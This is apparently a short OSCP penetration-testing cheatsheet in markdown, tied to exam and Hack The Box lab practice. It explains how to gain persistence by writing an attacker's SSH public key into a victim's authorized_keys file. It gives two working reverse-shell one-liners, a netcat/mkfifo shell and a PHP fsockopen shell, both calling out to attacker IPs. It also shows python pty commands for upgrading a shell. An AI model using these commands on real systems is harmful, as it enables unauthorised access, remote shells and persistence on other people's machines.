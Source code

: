 # Cheatsheet

- https://github.com/0xsyr0/OSCP
- https://github.com/BlessedRebuS/OSCP-Pentesting-Cheatsheet/blob/main/README.md
- https://github.com/RubensZimbres/OSCP-best

# SSH 

## ssh-keygen  

```bash  
# Once you have a victim side shell, you can try to create an id_rsa file to access via ssh

# kali
ssh-keygen -f username
# copy the contents of the username.pub file

# victim
cd /.ssh
echo ssh-rsa [CONTENUTO DI username.pub] > authorized_keys

# kali
chmod 600 username
ssh -i username username@$IP
```

- [Example - Magic HTB](https://www.youtube.com/watch?v=bLIcew9Iot8&t=750s&ab_channel=IppSec)

# Payloads

[[Payloads]]
## Linux

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.200 80 >/tmp/f

php -r '\$sock=fsockopen(\”192.168.45.231\”, 8443);exec(\”/bin/sh -i <&3 >&3 2>&3\”);'
```

# Interactive Shells
## Linux

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

**Fully Interactive TTYs with python**

```bash
which python python2 python3

python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```
